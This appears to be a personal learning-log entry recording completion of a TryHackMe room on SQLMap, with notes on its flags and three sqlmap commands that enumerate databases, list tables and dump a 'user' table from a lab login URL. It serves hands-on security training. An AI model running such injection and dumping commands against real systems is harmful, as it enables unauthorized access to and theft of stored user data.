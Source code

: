 .
## Day 37
### [**Streak**](https://tryhackme.com/Tushig3531/streak)
---
**Room Completed**
[**SQLMap: The Basics**](https://tryhackme.com/room/sqlmapthebasics)
---

SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. It simplifies the process of identifying these vulnerabilities. 

- "--dbs" : helps us to extract all the database names
- "-D database_name --tables" : with this command after we know the name of database, we can extract information about the tables.
- "-D database_name -T table_name --dump" : After finding the tables, we can enumerate the records in those tables

URLs that have GET parameters can be vulnerable to SQL injection


```bash
sqlmap -u "http://10.201.37.241/ai/includes/user_login?email=test&password=test" --dbs
```

```bash
sqlmap -u "http://10.201.37.241/ai/includes/user_login?email=test&password=test" -D ai --tables
```

```bash
sqlmap -u "http://10.201.37.241/ai/includes/user_login?email=test&password=test" -D ai -T user --dump
```
